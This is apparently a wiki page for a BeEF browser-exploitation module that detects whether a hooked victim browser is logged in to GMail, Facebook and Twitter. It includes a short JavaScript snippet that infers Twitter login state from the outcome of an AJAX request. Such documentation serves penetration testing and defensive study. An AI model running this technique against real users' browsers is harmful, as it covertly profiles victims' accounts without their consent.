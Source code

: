 ## Summary

* **Objective**: Detect social networks
* **Authors**: xntrik, Mike Cardwell
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/network/detect_soc_nets)

## Internal Working

This module will detect if the Hooked Browser is currently authenticated to GMail, Facebook and Twitter, using img tags and AJAX requests.

**example for twitter**

```js

$j.ajax({
        url: "https://twitter.com/account/use_phx?setting=false&amp;format=text",
        dataType: "script",
        cache: "false",
        complete: function(one, two) {
                if (two == "success") {
                        twitterresult = "User is NOT authenticated to Twitter (response:"+two+")";
                } else if (two == "timeout") {
                        twitterresult = "User is authenticated to Twitter (response:"+two+")";
                }
        },
        timeout: <%= @timeout %>
});

```

## Screenshots

[[Images/module-detect-social-network.png|align=center|width=500px]]

## Feedback
